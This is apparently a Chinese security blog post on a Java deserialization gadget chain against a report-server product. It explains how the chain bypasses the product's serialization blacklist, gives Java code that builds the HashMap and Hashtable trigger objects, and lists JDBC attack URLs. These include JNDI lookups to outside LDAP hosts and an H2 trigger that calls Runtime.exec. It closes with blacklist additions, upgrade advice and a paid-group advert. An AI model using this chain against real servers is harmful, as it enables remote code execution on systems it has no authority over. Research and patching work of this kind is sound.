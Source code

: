 #  某报表玩坏的反序列化漏洞   
uname  黑伞安全   2024-08-20 16:36  
  
**起因**  
  
某次护网应急响应,发现了最新版的某报表的被打掉了,日记记录channel触发的反序列化进行攻击的,和springkill大哥一起愉快调试两天了,想着已经玩了一个多月,差不多见光死了,就和大家分享下得了。  
  
**历史漏洞**  
  
某报表channel反序列化漏洞历史爆出三个链子,一个cb, 一个singobject的二次反序列,,一个Hibernate。  
下载最新版v10（当时是5月）,查找黑名单  
  
com/fr/serialization/blacklist.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdw0qydCRHuyBJ3awwYgKXJhtX7Bq2R7ogU3wfqNUFh9LWx0YoMCsIwiaA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwQnkGK0hIic9ZrDK6eRGsS9WicPLdImRQSibNqnWDMr7q3xqqeyeIsAsAA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwUNChZmWlH8R0NhnLAYmicicicpsUmZhKcE3MC8eGy02bvp8evJFmQJDJA/640?wx_fmt=png&from=appmsg "")  
******com.fr.third.alibaba.druid.pool.xa.DruidXADataSource**  
  
这边直接去找getter触发,找DruidXADataSource这个类非常合适,且不在黑名单里面。  
这个类可以控制sql库的服务, 链接url,以及查询语句,很容易就能想到利用druid去打jdbc。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwIAoYEF9y0DcQVATlQwFd5pK5PKM7GicQ7pGLblBvsIhAP6GQbllr6BA/640?wx_fmt=png&from=appmsg "")  
  
  
可以看见没啥毛病。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwaVDI1JDibOH3E8Q33Ytq2mYHPxgMeep5fm3M0kiaa2l7fdsFCwfR9IOQ/640?wx_fmt=png&from=appmsg "")  
  
既然打jdbc,就很多都能打了,实战中还得看服务器存在哪些数据库依赖。  
  
可以参考su18的 https://su18.org/post/jdbc-connection-url-attack/。  
  
既然要用getter去触发,也不在黑名单里面,这样找找,发现fastjson, jackson的原生序列化就很合适。  
  
**com.fr.json.JSONArray#toString**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwyZ2Czb2vDWhCI6PHbJTJ9jpq7JhqxP3E9oKzcRVericjAG9tccPKrag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwDwxhQd7sxEBoydibGClNyyJKBibLibeibPDI9RtpWuE3sK5zrmmzYSgryw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwnBCYe6ic4l4VJiba8TeJqf3A6IKNOdRSqnGvdLib9wCjZ83icuGkCTAqlg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwHTibyk4lwxw4edDqeJc9S9PGicGdI8tDVkTnS5QblIsrW1uscfibPTMRA/640?wx_fmt=png&from=appmsg "")  
  
在这个类的tostring, 会调用到  
  
com.fr.json.revise.EmbedJson#encode  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwGia2paJ6uF1zVdddlKzvXMRb2B4KCzVlAzhkP2vpRGI1AWdW72013Ig/640?wx_fmt=png&from=appmsg "")  
  
它里面会调用jackson的序列化, list直接反射修改为druid,从而触发druid的getXAConnection()。也就是只用了om.fr.json.JSONArray然后内部调用,直接就绕过jackson的黑名单太酷了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwldaZ3pofuZtxsCAo2NPcxibwaQwO2rRklfN0QjL7fs7PmeIYfFlGzag/640?wx_fmt=png&from=appmsg "")  
  
**两条jdk原生tostring**  
  
现在公开触发tostring的头部基本都在黑名单了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwAdo2jOsIiaYibKLJv1E9ECKGc6MxUVrDPtLiahxOE1XpsyicyiafW2hdtuA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdw10u7x9DzX01MWUVQluXV6ib5ASjY26U6viaLZ8WnpeSN0ciarhiaa9JUgQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwMo6FQibnRSpeAVmUREnT26zPGXbyN85qUpDIg9X7EibHwdDF9OFogmBw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwq1DSuCmk5yVGqq1AibsbFgdABENjng8v6cfic3Sraoibs299zkeWEiaZjA/640?wx_fmt=png&from=appmsg "")  
  
所以现在需要找一条新的tostring。  
  
javax.swing.UIDefaults.TextAndMnemonicHashMap  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwVOrLsT2ULWxxPoKTo2jMUNNGOl7cSmhg86ianWGD7JicX9l9Vpo7r7wQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到是map,然后调用了key的tostring,非常完美。  
  
java.util.AbstractMap#equals  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwAD9Pn3vo4cB2OKzYVSLkticmEyf99NCjCftrgiaDGBtYw73LVn8VltxQ/640?wx_fmt=png&from=appmsg "")  
  
m是一个map,改成javax.swing.UIDefaults.TextAndMnemonicHashMap就可以走通,非常合理。  
  
java.util.AbstractMap是一个抽象类,所以我们只要找一个继承它又没有实现equals的方法就行了,感觉非常多了, hashmap,hashtable都可以。  
  
  
**hashtable触发tostring**  
```
public static Hashtable makeTableTstring(Object o) throws Exception{Map tHashMap1=(Map)createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap");Map tHashMap2=(Map)createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap");tHashMap1.put(o,"yy");tHashMap2.put(o,"zZ");setFieldValue(tHashMap1,"loadFactor",1);setFieldValue(tHashMap2,"loadFactor",1);Hashtable hashtable= new Hashtable();hashtable.put(tHashMap1,1);hashtable.put(tHashMap2,1);tHashMap1.put(o, null);tHashMap2.put(o, null); return hashtable;
```  
  
**hashmap 触发 tostring**  
  
```
public static HashMap maskmapToString( Object o1,  Object o2) throws Exception{
Map tHashMap1=(Map) 
createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap");
Map tHashMap2=(Map) createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap");
 tHashMap1.put(o1,null);
 tHashMap2.put(o2,null);
 setFieldValue(tHashMap1,"loadFactor",1);
 setFieldValue(tHashMap2,"loadFactor",1);
 HashMap hashMap= new HashMap();
 Class node= Class.forName("java.util.HashMap$Node");
 Constructor constructor= node.getDeclaredConstructor(int.class, Object.class, Object.class, node);
 constructor.setAccessible(true);
 Object node1= constructor.newInstance(0, tHashMap1, null, null);
 Object node2= constructor.newInstance(0, tHashMap2, null, null);
 Field key= node.getDeclaredField("key");
 Field modifiers= Field.class.getDeclaredField("modifiers");
 modifiers.setAccessible(true);
 modifiers.setInt(key, key.getModifiers()&~Modifier.FINAL);
 key.setAccessible(true);
 key.set(node1, tHashMap1);
 key.set(node2, tHashMap2);
 Field size= HashMap.class.getDeclaredField("size");
 size.setAccessible(true);
 size.set(hashMap, 2);
 Field table= HashMap.class.getDeclaredField("table");
 table.setAccessible(true);
 Object arr= Array.newInstance(node, 2);
 Array.set(arr, 0, node1);
 Array.set(arr, 1, node2);
 table.set(hashMap, arr);
 return hashMap; 
 }
 

```  
  
  
**一些坑点**  
  
默认包里面一些数据库是没有环境的,需要自己下载,如h2, ibm, postsql等,默认是hsqldb, 好在hsqldb可以直接调用java的public static 方法,和官方包不同,需要自己去找方法调用。默认jdk是191,也就是jndi得用高版本jdk去绕过。一般用两种方式,一种利用利用本地Class作为Reference Factory, 一种基利用LDAP返回序列化数据,触发本地Gadget。这里我是利用第二种直接本地gadget出触发  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwKeXGibyWHCI78xxCbBokmbLqCMY5R8TicPwjPesMsfvu4Cvag9mA2hhg/640?wx_fmt=png&from=appmsg "")  
```
java.util.HashMap.readObject/java.util.Hashtable.readObjectjava.util.AbstractMap.equalsjavax.swing.UIDefaults$TextAndMnemonicHashMap.get com.fr.json.JSONArray.toStringcom.fr.third.fasterxml.jackson.databind.ObjectMapper.writeValueAsStringcom.fr.third.alibaba.druid.pool.xa.DruidXADataSource.getXAConnection
```  
  
  
**一些jdbc**  
  
**ibm**  
  
druidDataSource.setUrl(  
"jdbc:db2://127.0.0.1:5001/BLUDB:clientRerouteServerListJNDINam e=ldap://10.0.0.67:1389/remoteExploit8;"  
);druidDataSource.setDriverClassName(  
"com.ibm.db2.jcc.DB2Driver"  
);  
  
**h2**  
  
druidDataSource.setUrl("jdbc:h2:mem:test;MODE=MSSQLServer;init=  
CREATE  
   
TRIGGER  
 hhhh   
BEFORE  
   
SELECT  
   
ON   
INFORMATION_SCHEMA.CATALOGS   
AS  
'//javascript\n"+"java.lang.Runtime.getRuntime().exec(\"open.\")'  
");  
  
**mysql**  
  
druidDataSource.setUrl(  
"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffI nterceptor&user=CommonsCollections6"  
);  
  
hsqldb  
  
druidDataSource.setValidationQuery("  
call  
\  
"javax.naming.InitialContext.doLookup\"('ldap://10.211.55.2:4444/123');"  
);  
druidDataSource.setDriverClassName("com.fr.third.org.hsqldb.jdbcDriver");  
  
修复建议，黑名单增加如下  
```
javax.swing.UIDefaults$TextAndMnemonicHashMap,
com.fr.third.alibaba.druid.pool.xa.DruidXADataSource
com.fr.third.alibaba.druid.pool.xa.DataSource
com.fr.json.JSONArray
```  
  
https://help.fanruan.com/finereport/doc-view-4833.html  
  
**官方通告,升级至2024-05及之后版本。**  
  
**声明**  
  
此文章仅用于教育目的。  
请负责任地使用它,并且仅在您有明确测试权限的系统上使用。  
滥用此 PoC 可能会导致严重后果。  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球，目前POC库&知识库7k star,我们一起冲，一起学。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGq71YhicyuZoVktXiaoo8BDdwSEfoibNhCVQ6dySB2K7ojIYkLjl3UDMbE9GUBXYREQHcnLiaMqzPoHpg/640?wx_fmt=png&from=appmsg "")  
  
  
